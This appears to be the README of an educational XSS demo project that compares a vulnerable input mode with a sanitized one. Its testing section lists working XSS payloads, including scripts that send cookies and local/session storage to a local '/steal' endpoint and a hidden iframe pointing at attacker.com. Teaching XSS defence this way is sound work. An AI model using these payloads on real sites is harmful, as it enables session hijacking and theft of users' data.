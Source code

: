 # JavaScript XSS Playground

This project demonstrates what XSS (Cross-site Scripting) is and how to prevent it using input sanitization. It is designed for educational purposes to help developers understand the risks of XSS attacks and the importance of secure coding practices.

## Features

- **Vulnerable Mode**: Simulates a working XSS vulnerability to demonstrate how attacks occur.
- **Secured Mode**: Shows how input sanitization can effectively prevent XSS attacks.
- **Toggle**: Easily switch between "Vulnerable" and "Secured" modes to compare behaviors.

## Concepts Learned

- Understanding XSS attacks and their impact.
- Implementing input validation and sanitization techniques.
- Recognizing the importance of secure coding practices.

## How to Use

1. Open `index.html` in a browser.
2. Enter some text in the input field and submit.
3. Toggle between "Vulnerable" and "Secured" modes to observe the difference in behavior.

## Testing the Project

1. Open `index.html` in a browser.
2. Use the following payloads in the input field to test XSS vulnerabilities:
   - `<img src="x" onerror="alert('XSS Attack!')">`
   - `<script>document.body.innerHTML = '<h1>Hacked by Attacker</h1>';</script>`
   - `<a href="https://www.youtube.com/" target="_blank">Click here</a>`
   - `<script>const img = document.createElement('img'); img.src = 'http://localhost:3000/steal?session=' + document.cookie; document.body.appendChild(img);</script>`
   - `<script>const data = { localStorage: JSON.stringify(localStorage), sessionStorage: JSON.stringify(sessionStorage) }; fetch('http://localhost:3000/steal', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify(data) });</script>`
   - `<iframe src="http://attacker.com/steal-session" style="display:none;"></iframe>`
   - `<div id="target" onmouseover="alert('XSS via Event Listener')">Hover over me</div>`

3. Toggle between "Vulnerable" and "Secured" modes to observe how the application handles these payloads.

## Educational Purpose

This project is designed to educate developers about the risks of XSS attacks and the importance of input validation and sanitization. It provides hands-on experience with real-world attack scenarios and demonstrates effective prevention techniques.

## Disclaimer

This project is for educational purposes only. Do not use the vulnerable mode in a production environment. Always validate and sanitize user input to prevent malicious scripts from being executed.
